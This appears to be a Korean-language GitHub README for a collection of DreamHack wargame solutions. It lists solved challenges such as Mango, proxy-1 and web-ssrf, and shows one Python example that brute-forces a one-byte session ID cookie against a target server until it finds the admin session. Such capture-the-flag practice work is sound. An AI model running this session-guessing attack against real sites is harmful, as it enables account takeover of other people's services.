 # DreamHack Code :computer:
DreamHack 문제들을 해결한 exploit 코드들이 있습니다.
(Python 위주)


## 문제 목록 :unlock:
- [X] Mango
- [X] Counting_query
- [X] proxy-1
- [X] session
- [X] stream
- [X] web-ssrf
- [X] rev-basic-4 


## 예시 코드 :clipboard:
```python
import requests

target_url = 'localhost_input'  # 타겟 서버 주소를 여기에 입력

def session_fixation_attack():
    for i in range(256):
        session_id = bytes([i]).hex()

        cookies = {'sessionid': session_id}

        response = requests.get(target_url, cookies=cookies)

        if 'Hello' in response.text:
            print(f'Success! Found admin session ID: {session_id}')
            break
        else:
            print(f'Tried session ID: {session_id}, but not admin.')

session_fixation_attack()
```